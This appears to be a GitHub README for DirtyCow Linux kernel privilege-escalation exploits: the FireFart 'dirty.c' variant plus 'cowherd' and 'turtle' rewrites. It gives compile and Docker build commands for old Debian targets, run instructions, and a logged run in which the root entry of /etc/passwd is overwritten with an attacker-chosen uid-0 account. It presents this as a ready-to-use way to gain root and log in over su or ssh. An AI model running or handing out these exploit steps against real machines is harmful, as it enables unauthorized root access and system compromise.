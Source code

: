 # DirtyCow Origin :cow:

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
The user will be prompted for the new password when the binary is run.
The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
After running the exploit you should be able to login with the newly created user.

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
  https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c

Compile with:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
Afterwards, you can either `su firefart` or `ssh firefart@...`

**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Exploit adopted by Christian "FireFart" Mehlmauer

https://firefart.at

# DirtyCow with Cowherd :cow: :woman_farmer:

In this version the additional `cowherd thread` stop the original threads when the job is done.

## Compile for Debian Squeeze 32
* Use a docker target os to compile the exploit 
```
docker run --platform linux/386 -it -v $(pwd):/tmp debian/eol:squeeze
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/tmp# head -n 20 dirty.c
...
root@07ccd56551fe:/tmp# head -n 20 cowherd.c
...
```
* Follow the compilation instructions
* Use it as the original


# Turtle :rabbit: :turtle: 

## Compile for Debian Wheezy 64

* Use a docker target os to compile the exploit 
```
docker run --platform linux/amd64 -it -v $(pwd):/tmp debian/eol:wheezy
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/# gcc -pthread main.c -o turtle
```
## Use

```
$ ./turtle 

⛔ usage: build_name race_length race_interval advisor_interval

$ ./turtle 256 1 3

       236 µs	● run process[MAIN] >> thread[main]
       340 µs	⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup]
       421 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,023 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,067 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,154 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,169 µs	⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_setup]
     4,299 µs	● run process[POKEMON (MAIN is now POKEMON)] >> thread[main]
     4,328 µs	⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_setup]
     4,352 µs	⚬ ● run process[COWHERD -> ADVISOR] >> thread[main]
     4,488 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_setup]
     4,985 µs	⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor]
     5,030 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor] >>> function[advise_kernel]🐮🔄
     5,593 µs	⚬ ● end process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_setup]
     5,778 µs	⚬ ● run process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     5,794 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,877 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,892 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     5,906 µs	● root:x:0:0:root:/root:/bin/bash
     5,915 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,570 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,610 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,618 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,627 µs	● 0:002UBq03Nvvos:0:0:::/bin/bash
     7,631 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,717 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,768 µs	● ADVISOR: .........34 memory advise
     7,790 µs	⚬ ⚬ ● end process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,816 µs	⚬ ● end process[POKEMON -> ADVISOR] >> thread[main]
     8,045 µs	● POKEMON: ......1,024 ptrace poketext
     8,054 µs	⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     8,061 µs	● end process[POKEMON] >> thread[main]

$ head -n 3 /etc/passwd
0:002UBq03Nvvos:0:0:::/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
...
```
Now
* the name of the user having the `id 0` (former `root`) is `0` and is password too :hushed:
* the integrity the second line of the `/etc/passwd` is preserved because the lenght of the first line is unchanged :wink:


